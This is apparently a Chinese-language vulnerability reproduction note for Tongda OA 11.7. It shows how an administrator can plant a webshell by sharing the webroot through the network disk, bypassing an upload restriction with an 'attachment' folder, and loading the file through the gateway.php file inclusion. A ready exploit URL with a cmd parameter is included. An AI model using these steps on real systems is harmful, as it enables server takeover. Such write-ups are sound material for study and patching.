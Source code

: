 通达oa 11.7 后台getshell
========================

一、漏洞简介
------------

需要后台管理权限

二、漏洞影响
------------

通达oa 11.7

三、复现过程
------------

找到网络硬盘，创建共享目录为webroot目录地址

![3.png](./resource/通达oa11.7后台getshell/media/rId24.png)

进行权限设置

![4.png](./resource/通达oa11.7后台getshell/media/rId25.png)

![5.png](./resource/通达oa11.7后台getshell/media/rId26.png)

然后general在这里需要创建一个叫attachment的文件夹进行绕过

![6.png](./resource/通达oa11.7后台getshell/media/rId27.png)

在attachment这个文件夹就可以上传png了

![7.png](./resource/通达oa11.7后台getshell/media/rId28.png)

下面用通达万年不变的文件包含，格式为这个`https://www.0-sec.org/ispirit/interface/gateway.php?json={%22url%22:%22general/attachment/shell.php.png%22}&cmd=echo%20hhhhhh;`
